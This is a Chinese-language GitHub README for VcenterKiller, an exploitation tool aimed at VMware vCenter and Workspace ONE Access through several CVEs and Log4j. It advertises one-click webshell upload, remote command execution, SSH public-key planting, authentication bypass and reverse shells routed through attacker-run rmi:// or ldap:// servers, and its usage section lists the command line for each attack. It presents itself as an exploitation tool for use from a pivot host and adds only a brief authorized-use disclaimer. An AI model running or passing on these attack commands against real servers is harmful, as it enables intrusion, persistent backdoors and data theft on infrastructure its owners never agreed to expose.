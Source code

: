 
![vckiller](https://socialify.git.ci/Schira4396/VcenterKiller/image?description=1&descriptionEditable=%E4%B8%80%E6%AC%BE%E9%92%88%E5%AF%B9Vcenter%E7%9A%84%E7%BB%BC%E5%90%88%E5%88%A9%E7%94%A8%E5%B7%A5%E5%85%B7&font=Inter&forks=1&issues=1&language=1&name=1&owner=1&pattern=Plus&stargazers=1&theme=Light)

# VcenterKiller

#### -1.注意

在本地搭建漏洞环境的兄弟，用vckiller验证log4j基本上会失败，因为在Vmware 虚拟机环境下用NAT模式的话，验证模块中的出口网卡会被判定为127.0.0.1，这样目标访问的LDAP Server地址就变成了127.0.0.1，验证就失败了😏

#### 0.必读
如果遇到bug请提issue，写这个工具单纯是为了方便，它没有什么高大上的东西



#### 1.它是什么

一款针对Vcenter的综合**验证**工具，包含目前最主流的CVE-2021-21972、CVE-2021-21985以及CVE-2021-22005，提供一键上传webshell，命令执行或者上传公钥并使用SSH连接的功能，以及针对Apache Log4j CVE-2021-44228漏洞在Vcenter上的检测以及利用，比如命令执行并获取回显（~~需要一个ldap恶意服务器~~），现在不需要另外启动ldap服务器了，我根据jndi-injection工具手搓了一个利用方式，Vcenter使用的中间件是Tomcat，直接使用TomcatBypass的利用链就行了。

#### 2.它的定位

一般Vcenter都放在内网，并且漏洞特征也都是烂大街，像什么fscan啦一扫就出来了，那么VcenterKiller就不是用来检测目标是否存在漏洞的，而是直接尝试利用，一般通过CS/MSF在跳板上来执行，所以去掉了其余花里胡哨的输出。

为什么用GO，因为Python写起来方便但是用起来很蛋疼，各种依赖库，并且编译出来体积太大，C#没法跨平台，写到一半扔了。

#### 3.使用方法

```bash
go build -o main.exe

./main.exe -u https://192.168.1.1 -m 21985 -c whoami
./main.exe -u https://192.168.1.1 -m 22005 -f test.jsp
./main.exe -u https://192.168.1.1 -m 21972 -f test.jsp
./main.exe -u https://192.168.1.1 -m 21972 -f id_rsa.pub -t ssh //传公钥
./main.exe -u https://192.168.1.1 -m 21985 -t rshell -r rmi://xx.xx.xx.xx:1099/xx
./main.exe -u https://192.168.1.1 -m log4center -t scan // scan log4j
./main.exe -u https://192.168.1.1 -m log4center -t exec -r ldap://xx.xx.xx.xx:1389 -c whoami //也可以不指定ldap服务
./main.exe -u https://xx.xx.com -m 22954 whoami
./main.exe -u https://xx.xx.com -m 22972 //get cookie
./main.exe -u https://xx.xx.com -m 31656 //If CVE-2022-22972不能用就换CVE-2022-31656
```

#### 4.免责声明

本工具仅面向**合法授权**的企业安全建设行为，例如企业内部攻防演练、漏洞验证和复测，如您需要测试本工具的可用性，请自行搭建靶机环境。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。**请勿对非授权目标使用。**

如您在使用本工具的过程中存在任何非法行为，**您需自行承担相应后果**，我们将不承担任何法律及连带责任。

#### 5.更新日志

```bash
V1.0 上线
V1.1 针对CVE-2021-21985添加了利用rmi反弹shell的功能，前提是你要启动一个rmi服务器，例如jndi-injection-exploit
V1.2 增加了针对Vcenter的log4j检测和验证能力
V1.3 增加了对Vmware WorkSpace One Access的漏洞验证功能，包括CVE-2022-22954 远程命令执行；CVE-2022-22972、CVE-2022-31656身份鉴别绕过
V1.3.1 修复了检测log4j时忽略了端口的问题，有的服务会更改默认的443端口
V1.3.2 修改了针对log4j的利用方式，通过tomcatbypassEcho的方式执行命令并获取回显。vcenter 7.0 linux测试通过。
V1.3.3 增加了对6.7和7.0版本的区别利用，7.0必须使用tomcatbypass，而6.7使用普通的basic就行了
v1.3.4 修改了对log4j的验证逻辑，目前的逻辑是循环5次不同payload无差别乱打，有回显就有，没有就没有
v1.3.5 消除了log4j对Jndi-Injection-Exploit的依赖，能够直接执行命令并获取回显
...
```


